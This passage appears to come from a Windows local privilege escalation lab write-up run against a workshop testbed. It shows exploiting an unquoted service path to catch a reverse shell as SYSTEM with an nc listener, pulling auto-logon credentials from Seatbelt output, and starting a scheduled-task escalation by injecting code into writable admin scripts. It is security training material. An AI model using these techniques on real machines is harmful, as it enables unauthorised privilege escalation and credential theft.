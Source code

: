 Then we start the service:
``net start unquotedsvc``

Then we get a reverse shell as the NT\Authority System user:

````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.49.
Ncat: Connection from 10.22.6.49:64557.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````

While digging through Seatbelt: we find that there are registry auto-login settings: This gives us the local user credentials.

````
=== Registry Auto-logon Settings ===

  DefaultUserName         : user
  DefaultPassword         : password321
  ````
  
There is a scheduled task privesc in the LPE workshop, but I feel like it's not exploitable, so I am going to inject a scheduled task privesc that I have seen on Windows a number of times. The reason that is it not exploitable is because as a standard user, you cannot see scheduled tasks that are running as SYSTEM the majority of the time. If the folder isn't named something dead obvious, you wouldn't be able to know there is even a missing file to replace. So I created a still contrived but much more believable version.

Developers LOVE to comment their code and scripts. So if we find a writable directory that appears to be a Dev folder: 

``C:\DevTools`` we should read through the code in there.

Because this is contrived, it will be a little easier to identify. Let's talk about other things though. If we read through some code/script that looks like it should be run frequently (cleanup, provision) we can assume some privileged user is running that script. We can inject our logic into that script and try to privilege escalation. These are also a FANTASTIC place to find credentials. Lazy sysadmins LOVE to put credentials in their scripts to eliminate the chance of error. If it "just works" then it's better for everyone.

````
PS C:\DevTools> ls


    Directory: C:\DevTools


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---        12/19/2019  10:12 AM        208 Cleanup.ps1                                                               


PS C:\DevTools> 
````